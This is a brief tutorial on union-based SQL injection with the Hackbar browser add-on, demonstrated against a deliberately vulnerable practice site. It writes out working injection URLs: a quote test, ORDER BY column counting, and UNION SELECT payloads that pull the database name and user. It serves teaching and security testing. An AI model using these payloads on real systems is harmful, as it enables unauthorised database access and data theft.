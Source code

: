 # SQL Injection (UNION-BASED) -- Cyberfox (Hackbar)

Pre-requisite:
1. Cyberfox Browser - (Linux/Windows).<br>
    To install cyberfox on linux using .deb <pre>dpkg -i <packagename>.deb</pre>
2. Hackbar v2.9.xpi
3. noredirect-1.3.2.13-fx+sm.xpi
4. tamper-data.xpi


Open the target page:
<pre>http://testphp.vulnweb.com/listproducts.php?cat=1</pre>

Test for SQL injection vulnerability by adding ' in the last:
<pre>http://testphp.vulnweb.com/listproducts.php?cat=1'</pre>

If you see an SQL error like:
<pre>You have an error in your SQL syntax</pre>
it means the parameter is likely vulnerable to SQL injection.

Exploit SQL Injection (UNION-Based)
<pre>http://testphp.vulnweb.com/listproducts.php?cat=1 ORDER BY 3--</pre>
If the page works fine, try increasing the number: ORDER BY 4--, ORDER BY 5--…
When you get an error, go back to the last number that worked. That’s your number of columns.

Once you know the number of columns, say 3, try:
<pre>http://testphp.vulnweb.com/listproducts.php?cat=-1 UNION SELECT 1,2,3--</pre>
You’ll see values like 1, 2, 3 appear on the page — it confirms the injection.

You can now extract useful data like:
<pre>http://testphp.vulnweb.com/listproducts.php?cat=-1 UNION SELECT 1, database(), user()--</pre>



